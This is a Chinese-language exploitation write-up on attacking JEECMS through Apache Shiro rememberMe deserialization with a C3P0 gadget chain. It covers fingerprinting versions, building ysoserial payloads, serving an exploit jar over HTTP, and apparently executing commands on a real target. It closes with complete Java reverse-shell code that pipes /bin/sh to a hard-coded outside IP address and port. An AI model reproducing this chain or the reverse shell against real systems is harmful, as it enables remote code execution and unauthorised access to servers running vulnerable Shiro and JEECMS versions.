# JEECMS的Shiro-C3P0链

### 寻找信息

特征1




组件信息




tomcat v7



v9.X安装说明



找到v9.3安装包，发现无法使用CC链






另外找到v8.1版本为shiro 1.3.0，v7为shiro 1.2.2，cc均为3.1




### 本地调试

已知CC、CB链无法使用，shiro-CB链可能无法使用，DNS链可以，此处可以考虑的则是c3p0或者hibernate

本地小测试一下发现版本0.9.5.2不对，不能使用。



后来发现依赖是0.9.1.1，v8.1也是一样



修改yso依赖



生成序列化数据



生成rememberMe数据



发送rememberMe数据



获得Dns结果




### 实战利用

生成命令执行exp的jar包




放到服务器上开启http服务，再用c3p0链生成payload执行




可以看到支持sh和bash，但只能wget，没有curl命令




### 到此一游

多种方法测试反弹Shell不成功，无奈只能用java Socket反弹Shell，因为是docker所以可以执行的命令非常少




```java
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class exp3 {
    public exp3() throws IOException, InterruptedException {
        String host="121.36.84.244";
        int port=7555;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0) {
                so.write(pi.read());
            }
            while(pe.available()>0) {
                so.write(pe.read());
            }
            while(si.available()>0) {
                po.write(si.read());
            }
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }

//    public static void main(String[] args) throws IOException, InterruptedException {
//        new exp3();
//    }
}
```


### 题外话

————————————————————————————————————————————————————————————

此外，理论上还有Shiro-CB原生链




测试时惊奇的发现shiro 1.3.0居然无法使用shiro-CB，因为没有利用到父类的CC依赖。那么实战环境使用shiro-CB链无法成功就是自然而然的事情了。




但很怪异的一点是添加CC3.1依赖后



完全可以使用CC-K1链



而V8.1版本是存在CC3.1的，项目快结束了，待后续研究



